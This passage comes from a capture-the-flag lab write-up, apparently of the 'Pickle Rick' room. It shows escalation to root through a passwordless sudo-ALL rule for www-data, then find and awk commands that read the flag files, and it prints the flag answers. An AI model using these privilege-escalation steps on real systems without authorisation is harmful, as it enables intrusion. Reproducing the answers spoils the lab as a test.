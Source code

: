 ### Critical Security Misconfiguration

**Finding:** The `www-data` user has unrestricted sudo access without password authentication.

**Technical Analysis:**
- `(ALL)` - Can execute commands as any user (including root)
- `NOPASSWD` - No password required for privilege escalation
- `ALL` - Can execute any command on the system

**Vulnerability Classification:** CWE-250 (Execution with Unnecessary Privileges)  
**Risk Level:** Critical  
**Impact:** Complete system compromise

### Privilege Escalation Execution

Immediate escalation to root privileges:
```bash
sudo su -
# Successfully obtained root shell
```

**Root Access Confirmed:**
```bash
whoami
# Output: root
```

 **Privilege Escalation Successful - Full Administrative Access Achieved**

Accessed Rick’s home directory for second ingredient:

```bash
sudo awk '{ print }' /home/rick/second\ ingredients
# Output: 1 jerry tear
```

 **Second Ingredient Acquired**

---

## 🔍 5. File System Enumeration and Root Access

Performed recursive search for last ingredient:

```bash
sudo find / -type f -name '*ingredient*' 2>/dev/null
# Output: /root/3rd.txt
```

Read file as root:

```bash
sudo awk '{ print }' /root/3rd.txt
# Output: fleeb juice
```

 **Third Ingredient Acquired**

---